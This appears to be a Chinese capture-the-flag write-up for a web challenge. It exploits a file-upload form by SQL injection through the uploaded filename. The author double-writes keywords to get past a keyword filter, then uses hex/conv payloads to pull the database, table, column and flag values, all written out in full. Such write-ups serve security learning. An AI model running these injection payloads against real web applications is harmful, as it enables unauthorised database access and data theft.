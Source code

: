 ## 题目描述

无

## 思路

打开题目，是一个注册登录页面，可能有人会想到注入或者绕过等逻辑漏洞，可惜都不是。

![20190830222800.png](https://raw.githubusercontent.com/handbye/images/master/20190830222800.png)

那就注册一个用户登录试试吧。

![20190830223001.png](https://raw.githubusercontent.com/handbye/images/master/20190830223001.png)

是一个文件上传页面，先上传一个文件试试。

![20190830223207.png](https://raw.githubusercontent.com/handbye/images/master/20190830223207.png)

图片可以正常上传，并显示到了页面中。

![20190830223253.png](https://raw.githubusercontent.com/handbye/images/master/20190830223253.png)

上传php脚本，提示文件扩展不正确，看来是对文件后缀做了过滤的，经过测试只能上传jpg后缀的文件，看来是白名单过滤。

值得注意的是我们上传的文件名都会显示到页面上，这个过程可能是经过数据库查询的。意思是我们上传的文件名会存放到数据库中，猜测插入语句为：

```sql
insert into 表名('filename',...) values('你上传的文件名',...);
```

这里的`filename`是可控的，我们只有尝试构造filename进行注入。

需注意的是，系统将select、from等关键字都进行了过滤。

![20190830224921.png](https://raw.githubusercontent.com/handbye/images/master/20190830224921.png)

考虑双写绕过：

![20190830225014.png](https://raw.githubusercontent.com/handbye/images/master/20190830225014.png)

- 采用`sselectelect database()`进行注入，发现页面返回0
- 采用`selecselectt substr(dAtabase(),1,12)`进行注入，页面依旧返回0
- 采用`selecselectt substr(hex(dAtabase()),1,12))`进行注入，页面返回7765625，本应返回7765625f7570，但遇到’f‘导致截断，所以需要conv转成十进制输出

> substr需要进行长度限制：不限制长度会导致返回值太大，系统使用科学计数法（xx e xxxxx）表示。

至于上面那个为啥遇到f会导致截断，以及为什么会想到将16进制转为10禁止输出，我也没相通，哪位大佬知道还希望指导下。

基于上面的原因，我们需要构造下面这句话来进行注入：

```sql
文件名'+(selselectect conv(substr(hex(database()),1,12),16,10))+'.jpg
```

拼接后的sql语句为：

```sql
...values('文件名'+(selselectect conv(substr(hex(database()),1,12),16,10))+'.jpg',...);
```

> CONV(n,from_radix,to_radix)：用于将n从from_radix进制转到to_radix进制
>substr(str,start,length)：将str从start长度为length分割
>hex(str)：将str转成十六进制

知道了注入语句，接下来就开始进行注入操作：

```sql
1. 注入库名：
file_name' +(selselectect conv(substr(hex(database()),1,12),16,10))+ '.jpg
# 得到数字 131277325825392 转换为16进制为 7765625f7570 转换为文字为 web_up
file_name' +(selselectect conv(substr(hex(database()),13,12),16,10))+ '.jpg
# 得到数字 1819238756 转换为16禁止为 6c6f6164 转换为文字为 load
# 下面的注入方式类似，不在细述
2. 注入表名：
file_name'+(seleselectct+conv(substr(hex((selselectect table_name frfromom information_schema.tables where table_schema = 'web_upload' limit 1,1)),1,12),16,10))+'.jpg
# 得到表名 hello_flag_is_here
3. 注入字段：
file_name'+(seleselectct+conv(substr(hex((selselectect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = 'hello_flag_is_here' limit 1,1)),1,12),16,10))+'.jpg
# 得到字段 i_am_flag
4. 获取数据：
file_name'+(seleselectct+CONV(substr(hex((seselectlect i_am_flag frfromom hello_flag_is_here limit 0,1)),13,12),16,10))+'.jpg
#得到Flag: !!_@m_Th.e_F!lag
```
